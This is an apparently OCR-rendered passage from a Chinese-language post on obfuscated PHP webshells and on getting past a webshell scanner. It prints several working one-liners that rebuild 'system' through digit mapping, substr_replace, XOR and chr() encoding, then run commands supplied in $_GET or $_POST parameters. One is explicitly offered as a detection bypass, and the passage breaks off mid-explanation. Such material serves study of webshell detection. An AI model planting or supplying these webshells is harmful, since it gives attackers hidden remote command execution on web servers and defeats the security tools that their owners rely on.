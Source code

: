 一、自定义函数混淆字符串类型：

```bash
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

二、一维数组绕过：

```bash
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

三、异或 + 变换参数绕过：

```bash
$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

等等，还有许多以 `变量(调用外部参数)` 来执行恶意命令的 WebShell 都能查杀，说明作者对参数变形和 PHP 参数调用的相关姿势烂熟于心啊哈哈

# 3# 查杀 ByPass

既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：

```bash
//ASCII 编码解密后为 system 高危函数
$f =  chr(114+1).chr(120+1).chr(116-1).chr(117-1).chr(100+1).chr(108+1);
call_user_func_array($f, array($_GET['aabyss']));
```

通过这个简单的样例，采用回调函数的手法，来执行对应的命令：
